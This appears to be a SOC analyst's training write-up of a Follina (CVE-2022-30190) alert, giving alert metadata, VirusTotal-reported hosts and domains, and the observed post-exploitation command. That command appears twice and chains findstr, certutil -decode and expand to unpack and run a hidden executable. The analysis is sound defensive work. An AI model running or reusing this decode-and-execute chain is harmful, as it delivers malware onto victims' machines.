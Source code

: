 	
⭐ Microsoft Windows Support Diagnostic Tool (MSDT) Remote Code Execution Vulnerability, CVE-2022-30190
EventID :   123
Event Time :    Jun, 02, 2022, 03:  2 PM
Rule :  SOC173 - Follina 0-Day Detected
Level : Security Analyst
Source Address :    172.16.17.39
Hostname :  JonasPRD
File Name : 05-2022-0438.doc
File Hash : 52945af1def85b171870b31fa4782e52
File Size : 10.01 Kb
AV Action : Allowed
Alert Trigger Reason :  msdt.exe executed after Office document

It looks like the malware was not properly quarantined/cleaned, since we can observe the following execution after killinng hte msdt.exe procress:
C:/windows/system32/cmd.exe /c cd C:/users/public/&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe
Which is quite suspicious.

Definitely it's a threat with a score of 100/100 in virustotal:

reproted hosts: 199.115.115.119 185.107.56.58 199.59.243.225 162.210.196.171
reported domains: www.xmlformats.com survey-smiles.com

02.06.2022 15:20:56
C:/windows/system32/cmd.exe /c cd C:/users/public/&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe

[[SOC173 - Follina 0-Day Detected - Writeup]]